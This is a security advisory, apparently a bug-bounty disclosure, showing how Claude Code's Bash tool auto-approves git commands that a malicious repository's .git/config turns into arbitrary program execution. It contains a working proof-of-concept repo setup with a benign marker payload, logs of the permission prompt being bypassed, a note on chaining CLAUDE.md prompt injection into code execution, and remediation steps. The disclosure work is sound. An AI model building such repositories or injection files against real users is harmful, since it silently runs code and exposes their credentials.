






# Anthropic RCE : Asking Claude for a Git Diff Can Run Any Program on Your Machine

| | |
|---|---|
| Target | Claude Code 2.1.310, Bash tool, default Manual permission mode |
| Weakness | ASI05: Unexpected Code Execution (RCE) |
| Severity | High (8.7) |

## Summary
Claude Code's Bash tool classifies `git diff`, `git status`, `git log -p`,
and `git ls-remote` as read-only and auto-approves them with no permission
prompt, in an already-trusted workspace. This decision is made from the
command line text alone — the analyzer never inspects the repository's own
`.git/config`.

Git is not read-only in an attacker-controlled repository. Four config keys
turn these commands into arbitrary program execution:

- `diff.external` — executed by `git diff`
- `diff.<driver>.textconv` — executed by `git diff`, `git log -p`, `git show`, `git blame`
- `core.fsmonitor` — executed by `git status`
- `core.sshCommand` — executed by `git ls-remote` against the configured remote

A repository (via clone, archive, or shared folder) carrying a malicious
`.git/config` therefore executes an attacker-chosen program as the user, with
no permission dialog, the moment Claude runs one of these commands. With the
sandbox off, this is full arbitrary code execution at the user's privilege
level.

## Root cause
Claude Code's own internal git helpers already defend against this exact
class of attack:
```
-c core.hooksPath=/dev/null -c core.fsmonitor=
--no-ext-diff --no-textconv
a sanitized GIT_SSH_COMMAND
```
But the Bash tool's shell executor does not apply any of this hardening —
it only sets `GIT_EDITOR=true`.

## Proof of Concept

**1. Set up a repository with a malicious `.git/config`:**
```bash
mkdir -p /tmp/claude-git-poc && cd /tmp/claude-git-poc
git init -q
git config user.email poc@example.com
git config user.name PoC
printf 'one\n' > tracked.txt
printf 'tracked.txt diff=evil\n' > .gitattributes
git add tracked.txt .gitattributes
git commit -qm init
printf 'two\n' > tracked.txt

cat > payload.sh <<'SH'
#!/bin/sh
printf '%s\n' "payload ran: $*" >> "$(dirname "$0")/PWNED"
exit 0
SH
chmod +x payload.sh

git config diff.external "$PWD/payload.sh"
git config core.fsmonitor "$PWD/payload.sh"
git config diff.evil.textconv "$PWD/payload.sh"
git config core.sshCommand "$PWD/payload.sh"
git remote add origin ssh://example.invalid/repo.git
```




**2. Start Claude Code in default Manual mode (no bypass flags) and ask:**
`show me the diff`



Claude Code issues `git diff`. No permission dialog appears:



The command completes immediately and `PWNED` is written:



**3. Internal stream-json output confirms the auto-approval:**
```json
{"type":"system","subtype":"init","permissionMode":"default","claude_code_version":"2.1.310"}
{"type":"assistant","message":{"content":[{"type":"tool_use","name":"Bash","input":{"command":"git diff"}}]}}
{"type":"user","message":{"content":[{"type":"tool_result","content":"warning: Empty last update token."}]},
 "tool_result_meta":[{"id":"toolu_poc_1","permission_decision":{"decision":"accept","source":"config","reason_type":"subcommandResults"}}]}
```

**4. All four vectors reproduced:**



| Vector | Command | Sink | Decision |
|---|---|---|---|
| diff | `git diff` | `diff.external` + `core.fsmonitor` | auto-approved |
| status | `git status` | `core.fsmonitor` | auto-approved |
| log -p | `git log -p -1` | `diff.<driver>.textconv` | auto-approved |
| ls-remote | `git ls-remote` | `core.sshCommand` | auto-approved |

**5. Negative control** — confirms the bypass is specifically about
`.git/config`, not the `-c` flag:
```bash
git -c core.fsmonitor=... status
```
This correctly requires approval and is denied automatically in a headless
session.

**6. Sandbox-on retest** — with `--settings '{"sandbox":{"enabled":true}}'`,
all four commands are still auto-approved; the diff/status/log-p payloads
still execute inside the sandbox. Only the `ls-remote` vector's outbound
connection is additionally blocked by the sandbox's network proxy.

## Impact
Arbitrary code execution as the user, with complete bypass of the permission
prompt — the only control letting a user review or deny a command before it
runs — triggered by an ordinary, everyday action (asking Claude for a diff
or status on an untrusted project).

With the sandbox off, a malicious repository achieves full user-level code
execution the moment Claude runs any of four common commands, enabling:

- Reading SSH private keys, cloud credentials, `.env` files, and any secret in the user's environment
- Modifying the repository, shell startup files (`.bashrc`/`.zshrc`), or Claude Code's own settings
- Establishing persistence or opening a reverse shell
- Exfiltrating proprietary source code and credentials

With the sandbox enabled, the bypass still occurs and the payload still
executes for three of the four vectors; only the filesystem/network
boundaries limit blast radius, not the bypass itself.

This also enables a zero-interaction escalation: a malicious repository
containing a `CLAUDE.md` that instructs Claude to run `git diff` or
`git status` as part of its own "setup" turns prompt injection directly into
code execution, since the resulting command is auto-approved with no human
in the loop at all.

## Remediation
- Apply the same git-hardening flags used by Claude Code's internal git helpers to the Bash tool's shell executor (`core.hooksPath=/dev/null`, `core.fsmonitor=`, `--no-ext-diff --no-textconv`, sanitized `GIT_SSH_COMMAND`)
- Have the read-only command analyzer account for repository-controlled `.git/config` keys before auto-approving
- Add regression tests covering all four sinks, plus sandbox-on execution
